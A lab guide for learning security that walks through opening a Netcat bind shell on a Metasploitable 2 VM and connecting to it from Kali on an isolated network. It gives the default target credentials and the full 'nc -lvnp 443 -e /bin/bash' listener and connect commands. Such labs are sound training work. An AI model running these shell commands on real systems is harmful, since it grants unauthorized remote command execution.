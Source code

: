 EH – Netcat Shell_02 (Bind Shell Lab Guide)
🎯 Objective

Learn how to use Netcat to establish a bind shell on a target machine.

📖 Purpose

Unlike reverse shells, a bind shell creates a listener on the target (victim) and waits for the attacker to connect in.
This is less common (since firewalls block inbound connections), but it’s still an important concept to learn.

🛠️ Tools

Kali Linux VM → Attacker machine

Metasploitable 2 VM → Target machine

🌐 Topology

Both machines must be on the same host-only isolated network in VirtualBox/VMware.

[Kali Linux - Attacker]  <---- Host-Only Network ---->  [Metasploitable - Victim]


Default Metasploitable login:

username: msfadmin
password: msfadmin

📝 Lab Tasks
🔹 Task 1: Get Target IP Address (Metasploitable)

On the Metasploitable VM:

ifconfig


📌 Example output:

eth0   inet addr:192.168.56.102


Here, the victim’s IP is 192.168.56.102.

🔹 Task 2: Create a Bind Shell on the Victim

On the Metasploitable VM, run:

sudo su -
sudo nc -lvnp 443 -e /bin/bash


Explanation of flags:

-l → Listen mode

-v → Verbose output

-n → Don’t resolve DNS

-p 443 → Port to listen on

-e /bin/bash → Executes bash once attacker connects

Now the target is waiting for the attacker to connect.

🔹 Task 3: Connect to the Bind Shell (Kali)

On the Kali VM, connect to the bind shell:

nc 192.168.56.102 443

🔹 Task 4: Verify Access

Now you should have a shell on the victim machine. Test it by running:

whoami
id
uname -a


✅ If successful, these commands execute on the Metasploitable machine but output to your Kali terminal.

⚠️ Notes

Bind shells often fail on real-world systems because firewalls block incoming connections.

Reverse shells (Lab 01) are more common, but bind shells are still useful to understand.

✅ Result

You can now connect from Kali → Metasploitable using a bind shell. You’re executing commands on the target directly through Netcat.
